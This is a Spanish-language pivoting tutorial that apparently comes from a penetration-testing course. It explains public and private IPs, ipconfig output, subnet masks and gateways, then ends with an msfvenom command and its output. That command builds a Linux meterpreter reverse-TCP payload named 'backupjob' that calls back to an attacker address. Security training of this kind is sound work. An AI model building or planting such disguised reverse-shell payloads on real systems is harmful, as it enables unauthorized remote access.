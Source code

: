 ### Direcciones IP en NICs

Si prestamos atención, notaremos diferentes direcciones IP vinculadas a cada NIC. Tomando como ejemplo `eth0`, con una dirección IP como `134.122.100.200`, estamos viendo una dirección IP pública. Esto implica que el tráfico proveniente o destinado a esta IP será gestionado por los Proveedores de Servicios de Internet (ISP) a través de la web. Direcciones IP públicas como esta se encuentran en dispositivos que tienen una conexión directa con Internet, a menudo situados en una Zona Desmilitarizada (DMZ).

Por otro lado, ciertos NICs, aparte de `tun0`, pueden poseer **direcciones IP privadas**. Estas direcciones operan dentro de entornos de red internos y no son accesibles directamente desde la Internet global. Para que un dispositivo se comunique en Internet, debe tener al menos una dirección IP pública en uno de sus NICs. Es esencial recordar que, en muchos casos, las direcciones IP privadas se traducen a direcciones IP públicas mediante NAT, permitiendo así la interacción con el exterior.


### Análisis de la Salida de `ipconfig` en Windows

La información proporcionada anteriormente proviene del resultado de ejecutar el comando `ipconfig` en un sistema Windows. Es evidente que este sistema posee múltiples adaptadores, aunque sólo unos pocos tienen direcciones IP asignadas. Las direcciones se presentan tanto en formatos IPv4 como IPv6. 

A pesar de los avances en la adopción de IPv6, este módulo se enfocará en redes que operan bajo IPv4. Esto se debe a que IPv4 aún domina como el principal mecanismo de direccionamiento IP en redes empresariales locales (LAN). Sin embargo, es crucial destacar que ciertos adaptadores, como los mostrados anteriormente, operan con configuraciones de **doble pila** (IPv4 e IPv6). Esta capacidad les permite acceder a recursos tanto por IPv4 como por IPv6.

#### Entendiendo la Máscara de Subred en IPv4

Cada dirección IPv4 está acompañada de una **máscara de subred**. Si consideramos la dirección IP como un número de teléfono, la máscara de subred actuaría como el código de área. Esta máscara divide la dirección IP en dos segmentos: la parte de la red y la del host. Esta distinción es vital para la comunicación en redes.

Cuando un paquete o tráfico requiere ser dirigido a una dirección IP fuera de su propia red, el sistema lo redirige a la **puerta de enlace predeterminada** (default gateway). Esta puerta de enlace, generalmente, es la dirección IP de un dispositivo que actúa como enrutador para esa LAN en particular. Desde la perspectiva de la pivotación en ciberseguridad, es esencial comprender las redes a las que un sistema comprometido puede acceder. Por ello, es de suma importancia documentar toda la información relacionada con direcciones IP durante un compromiso, ya que esto puede ser vital en fases posteriores del análisis.

### Creación de payload

Primero crearemos un payload con `msfvenom`, poniendo la situación de que ya hemos tomado acceso a un activo dentro de la red.

```bash
┌─[root@kali]─[/home/user/pivoting]
└──╼ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.49 LPORT=8080 -f elf -o backupjob         
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: backupjob
```
